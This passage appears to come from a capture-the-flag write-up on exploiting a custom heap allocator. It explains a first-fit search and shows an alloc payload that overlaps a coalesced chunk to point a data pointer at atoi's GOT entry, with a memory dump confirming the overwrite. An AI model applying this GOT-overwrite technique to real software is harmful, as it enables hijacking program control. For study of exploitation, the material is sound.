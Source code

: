 The keyword phrase is this:

```
The search starts from the beginning of the heap pointed by heap_listp
```

That straight up tells us that the entire heap state is basically stored as a linked-list. That is, there is a global pointer variable named `heap_listp` which points to the first allocated chunk. The first/next-fit search algo is the following:

```c
/*
 * find_fit: Looks for a free block with at least asize bytes with
 *           first-fit policy. Returns NULL if none is found.
 */
static block_t *find_fit(size_t asize)
{
    block_t *block;

    for (block = heap_listp; get_size(block) > 0;
                             block = find_next(block))
    {

        if (!(get_alloc(block)) && (asize <= get_size(block)))
        {
            return block;
        }
    }
    return NULL; // no fit found
}
```

Practically, it loops though the linked-list until it finds a free chunk with a big enough size. It accomplishes that by extracting the size of the currently checked chunk and it adds that to its address in order to check the next one and so on. No chunk is free up until the coalesced chunk, which gives us the opportunity to take advantage of the first-fit algo and allocate a new chunk at `0x6251c0`.

```python
alloc(0xa0,  'F'*0x20 + p64(0x61) + p64(0x31) * 2 + p64(atoi_got) + p64(8) + p64(atoi_got))
```

```
0x625180:	0x0000000000000031	0x0000000000000031 <-- chunk 8
0x625190:	0x0000000000000051	0x00000000006251c0 <-- dataptr 8
0x6251a0:	0x0000000000000008	0x0000000000401d61
0x6251b0:	0x0000000000000031	0x0000000000000031 <-- new chunk
0x6251c0:	0x00000000000000a1	0x00000000006251f0 <-- new chunk dataptr
0x6251d0:	0x0000000000000008	0x0000000000401d61
0x6251e0:	0x0000000000000031	0x00000000000000b1
0x6251f0:	0x4646464646464646	0x4646464646464646
0x625200:	0x4646464646464646	0x4646464646464646
0x625210:	0x0000000000000061	0x0000000000000031 <-- chunk 9
0x625220:	0x0000000000000031	0x0000000000603098 <-- dataptr 9 => atoi's GOT
0x625230:	0x0000000000000008	0x0000000000603098
```
